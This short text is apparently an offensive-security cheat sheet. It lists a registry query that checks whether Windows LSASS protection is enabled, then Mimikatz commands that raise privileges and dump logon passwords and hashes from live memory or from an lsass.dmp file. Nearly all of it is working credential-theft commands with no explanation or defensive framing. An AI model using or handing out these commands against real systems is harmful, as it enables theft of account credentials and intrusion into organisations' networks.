 Check LSASS Protection
```powershell
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL
```

Mimikatz
```
privilege::debug
token::elevate
sekurlsa::logonpasswords
```

Mimikatz from lsass.dmp
```
privilege::debug
token::elevate
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```


